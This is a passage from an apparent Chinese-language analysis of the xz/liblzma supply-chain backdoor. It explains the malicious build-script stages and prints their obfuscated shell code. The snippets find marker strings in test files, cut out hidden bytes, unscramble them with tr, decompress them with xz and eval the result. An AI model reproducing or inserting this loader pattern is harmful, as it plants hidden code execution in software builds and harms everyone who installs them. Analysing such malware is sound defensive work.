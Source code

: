 ```sh
fi
rm -f .libs/liblzma_la-crc32-fast.o || true
rm -f .libs/liblzma_la-crc64-fast.o || true
else
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
else
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd

```



### Stage 2

Stage 2是 Andres 在原始电子邮件（即 5.6.0 版本）中附加的[fected.txt](https://www.openwall.com/lists/oss-security/2024/03/29/4/1) 文件。这个 bash 脚本中发生了很多事情，因为这是实际编译过程修改发生的地方。

从混淆分析的角度来看，该脚本存在三个有趣的片段，其中两个仅出现在5.6.1版本中。

#### 扩展 机制

片段1

```sh
vs=`grep -broaF &#39;~!:_ W&#39; $srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$vs&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f1=`echo $vs | cut -d: -f1`
if test &#34;x$f1&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
start=`expr $(echo $vs | cut -d: -f2) &#43; 7`
ve=`grep -broaF &#39;|_!{ -&#39; $srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$ve&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f2=`echo $ve | cut -d: -f1`
if test &#34;x$f2&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
[ ! &#34;x$f2&#34; = &#34;x$f1&#34; ] &amp;&amp; exit 0
[ ! -f $f1 ] &amp;&amp; exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c &#43;${start} | head -c &#43;${end} | tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34; | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
```

片段3：

```sh
vs=`grep -broaF &#39;jV!.^%&#39; $top_srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$vs&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f1=`echo $vs | cut -d: -f1`
if test &#34;x$f1&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
start=`expr $(echo $vs | cut -d: -f2) &#43; 7`
ve=`grep -broaF &#39;%.R.1Z&#39; $top_srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$ve&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f2=`echo $ve | cut -d: -f1`
if test &#34;x$f2&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
[ ! &#34;x$f2&#34; = &#34;x$f1&#34; ] &amp;&amp; exit 0
[ ! -f $f1 ] &amp;&amp; exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c &#43;${start} | head -c &#43;${end} | tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34; | xz -F raw --lzma2 -dc`
```